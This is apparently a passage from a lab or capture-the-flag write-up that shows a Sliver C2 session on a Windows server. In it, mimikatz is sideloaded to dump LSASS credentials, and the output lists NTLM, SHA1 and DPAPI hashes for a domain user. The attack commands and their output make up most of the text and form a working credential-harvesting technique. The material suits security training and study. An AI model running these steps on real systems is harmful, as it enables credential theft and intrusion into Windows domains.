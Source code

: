 ```
               GID: S-1-5-21-3367427693-1023454350-3607259003-513
               PID: 3296
                OS: windows
           Version: Server 2016 build 20348 x86_64
            Locale: en-US
              Arch: amd64
         Active C2: mtls://10.2.10.9:41337
    Remote Address: 127.0.0.1:33024
         Proxy URL: 
Reconnect Interval: 1m0s
     First Contact: Fri May  9 04:40:44 EDT 2025 (47s ago)
      Last Checkin: Fri May  9 04:40:44 EDT 2025 (47s ago)
```

### Credential Harvesting

After obtaining the session, we can perform an LSASS dump with `mimikatz`. We'll use the `sideload` command for this.

```
sliver (initial) > sideload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe '"sekurlsa::logonpasswords" "exit"'

[*] Output:

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/



Authentication Id : 0 ; 776299 (00000000:000bd86b)
Session           : Batch from 0
User Name         : Castle_Knight_21
Domain            : async
Logon Server      : KING-DC
Logon Time        : 5/7/2025 11:13:18 PM
SID               : S-1-5-21-3324594629-4204122608-2512478463-1113
        msv :
         [00000003] Primary
         * Username : Castle_Knight_21
         * Domain   : async
         * NTLM     : 8d987bd5a242dcb12bf5a18a8cb68554
         * SHA1     : 63a065e16179ad897d776e5f99a095b5b18656f4
         * DPAPI    : b8fb733f8d376f1bbbae391e5eb4a03d
        tspkg :
        wdigest :
         * Username : Castle_Knight_21
         * Domain   : async
         * Password : (null)
        kerberos :
         * Username : Castle_Knight_21
         * Domain   : ASYNC.EMPIRE
         * Password : (null)
        ssp :
        credman :
        cloudap :
```
